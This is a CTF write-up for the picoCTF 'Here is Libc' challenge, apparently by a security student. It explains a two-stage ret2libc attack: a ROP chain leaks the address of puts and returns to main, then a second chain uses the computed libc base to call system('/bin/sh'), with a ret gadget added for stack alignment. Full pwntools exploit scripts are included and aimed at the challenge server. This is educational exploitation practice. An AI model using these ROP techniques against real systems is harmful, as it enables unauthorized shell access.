




# CTF Write-Up: [Here is Libc][Binary Exploitation]

## Description
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 1774


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{1_<3_sm4sh_st4cking_f2ac531bbb3a68ed}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb
- Youtube

## Write-Up

### Preparatory Phase

The first course of action was running `checksec vuln` to obtain the binary architecture and its protections. We find out that it is a 64-bit architecture with `NX` enabled which suggests that we cannot run our own shellcode on the stack. In conjuction with the name of the challenge we will need to likely use the `libc` file to obtain shell access.  We must also note that `Partial RELRO` is on, which means we can still write to the `GOT`.


Running the binary locally under `gdb` presented issues. I searched up the problem on StackOverflow and ran `sudo ldconfig -v`, but it didn't seem to work. Thus I then manually decided to obtain the offset using a manual binary search method. I eventually found the minimum value it core dumped was at 136 bytes deep.

```
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```
> Error provided



> Found offset to be exactly 136 bytes

Conducting static analysis using `gdb` I was able to print the functions present in the program. We must note the `puts@plt` which will be useful in leaking the address of `puts`. Using my analogy (inside `ANALYSIS.md`), the `plt` is 



My first aim is to leak the address of `puts` using one **ROP chain.** Then using this information I am able to obtain the base address for `libc` and obtain the addresses for `system` and `/bin/sh` to form our **second ROP chain** which will form the main punching power of our payload.

### Attack Phase
Using the formula from above I can begin my attack which is broken down into two phases. Reference: 
1. Obtain `libc` base
2. Exploit

To obtain the `libc` base we can take advantage of the dynamically linked standard C functions such as `puts`. What we want to do is push the `GOT` address of `puts` as an argument into the `puts` function (Mouth-full) so then the program will print the address of `puts`. We then need a pointer back to `main` to gain shell access.

Since `rdi` is the first argument to be pushed onto the stack via 64-bit calling conventions we need to find the gadget associated with `rdi`. We do this via `ROPgadget --binary vuln | grep rdi`



Using this knowledge and the fact that pwntools has inbuilt functionality to deal with ELF files using the documentation [here](https://docs.pwntools.com/en/stable/elf/elf.html),  we were able to leak
``` py
#!usr/bin/python3

from pwn import *
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])

## Note this only works because PIE and ASLR are disabled for the binary
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline()
leaked_puts = resp
print(leaked_puts)
```

Now we have leaked where `puts` is and have returned back to the start of main is. We then can obtain the offsets for libc and get our **Bonnie and Clyde** (`system` and `'/bin/sh'`) using the below formula.
```
libc_base = leaked_puts - libc.symbols['puts']
bin_sh = next(libc.search(b"/bin/sh")) + libc_base
system = libc.symbols['system'] + libc_base

```

The payload should simply be `offset + pop_rdi_gadget + bin_sh + system`, but it didn't seem to work. Upon further investigation it appears my stack was not aligned properly and needed a `ret` instruction prior to calling `system`. 
### Final Solution/Payload

<details><summary> Dropdown for code </bold> </summary>
<br>

``` py
#!usr/bin/python3

from pwn import *
from Cryptodome.Util.number import bytes_to_long
import sys

local = False
host = 'mercury.picoctf.net'
port = 1774
program = './vuln'

vuln_elf = ELF("./vuln")
libc = ELF('libc.so.6')
offset = 136

if local:
    io = process(program)
else:
    io = remote(host, port)

padding = b'A'*offset
pop_rdi = p64(0x0000000000400913)
ret = p64(0x000000000040052e)
puts_got = p64(vuln_elf.got['puts'])
puts_plt = p64(vuln_elf.plt['puts'])
main_addr = p64(vuln_elf.symbols['main'])


rop1_chain = [
    padding,
    pop_rdi,
    puts_got,
    puts_plt,
    main_addr    
]

rop1 = b''.join(rop1_chain)
io.sendline(rop1)
io.recvline()
io.recvline()
resp = io.recvline().strip()
print(f"Leaked puts: {resp}")
leaked_puts_addy = u64(resp.ljust(8, b'\x00'))

libc.address = leaked_puts_addy - libc.symbols['puts']

print(f"Base of libc is {hex(libc.address)}")
bin_sh = p64(next(libc.search(b'/bin/sh')))
system_addy = p64(libc.symbols['system'])

rop2_chain = [
    padding,
    ret,
    pop_rdi,
    bin_sh,
    system_addy
]
payload = b''.join(rop2_chain)
io.clean()
io.sendline(payload)
io.interactive()


```
</details>



### Lessons Learnt
1. Within the COMP6841 wargames, there was a `ret2libc` exercise but it leaked the address of a known function explicitly. However, this time this exercise requires two payloads - one to leak an function address in order to obtain the `libc base` and a second payload to gain shell access. Reading [this](https://tc.gts3.org/cs6265/tut/tut06-01-rop.html) assisted in my learning.

2. It was vital that for each binary exploitation challenge I must check the architecture via `file` or `checksec`. The way we approach 32-bit and 64-bit exploitations is different due to their differences in calling conventions. I attempted to do this challenge with the same mindset as I employed with the COMP6841 Wargames `ret2libc` but it didn't work and it wasted hours of my time :(.

3. Stack alignment is paramount on `x64` architectures as it needs to be a multiple of 16 bytes. We do this by prepending a `ret` instruction on our payload. https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment
## References

- https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
- https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment
